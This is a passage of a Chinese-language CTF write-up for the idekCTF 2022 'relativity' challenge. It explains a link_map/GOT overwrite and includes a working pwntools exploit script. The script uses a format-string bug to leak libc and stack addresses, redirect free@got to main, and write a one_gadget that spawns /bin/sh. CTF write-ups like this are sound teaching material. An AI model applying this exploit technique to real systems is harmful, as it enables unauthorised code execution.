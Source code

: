 可以看到它后面的`l_addr`就是程序的基地址(调试可以得到，比对后就可以确认)

而在程序中各个libc函数的偏移如下

![](/images/idek2022/15.png)

因此free的实际地址会被写回到`textaddr+0x4018`的地方

而在程序中`free`函数在`printf之后`，而`printf`存在格式化字符串漏洞，在正常模式下调试程序，可以发现`_Exit`函数结束后就是`main`的地址了，所以想法是改变`_Exit`的`.got.plt`处的内容使得程序可以一直循环执行。观察到`_Exit`与`free`的偏移差`0x38`，所以我们可以修改在栈上的`link_map`指向的`l_addr`为`textaddr+0x38`，这样`free`复写`.got.plt`时写的是`textaddr+0x38+0x4018=textaddr+0x4050`

### 解法

```python
from pwn import *
leak = lambda name,addr: log.success('{0}\t--->\t{1}'.format(name, hex(addr)))

binary = './vuln'
libc = "./libc-2.31.so"
context.terminal = ['tmux', 'splitw', '-h']
# context.binary = binary
context.log_level='debug'
# p = process(binary)
p = remote('relativity.chal.idek.team', 1337)
elf = ELF(binary, checksec=False)
libc = ELF(libc, checksec=False)

# link_map->l_addr += 0x38, write free at exit@got
p.sendlineafter("?", "%{}c%30$hhn||%11$p||%15$p||%13$p".format(0x38))
p.recvuntil("0x")
libc_base = int(p.recv(12), 16) - libc.sym['__libc_start_main'] - 243
leak("libc_base", libc_base)

p.recvuntil("0x")
text_base = int(p.recv(12), 16) - 0x000134A
leak("text_base", text_base)

p.recvuntil("0x")
stack = int(p.recv(12), 16)
leak("stack", stack)

free_got = text_base + 0x4018
main = text_base + 0x000134A
one = libc_base + 0xe3b01  #libc中的一个gadget，执行execve("/bin/sh")

# a pointer in stack to free@got
p.sendlineafter("?", "%{}c%34$hn".format((stack&0xffff)-0x8*4)) 
p.sendlineafter("?", "%{}c%53$hn".format((free_got&0xffff)))

# free@got == main
p.sendlineafter("?", "%{}c%55$hn".format((main&0xffff)))

# exit@got == one_gadget
p.sendlineafter("?", "%{}c%65$hhn".format(((free_got+0x30+8)&0xff))) #直接改上一次在栈上的free@got为exit@got
p.sendlineafter("?", "%{}c%67$hn".format(((one)&0xffff)))
```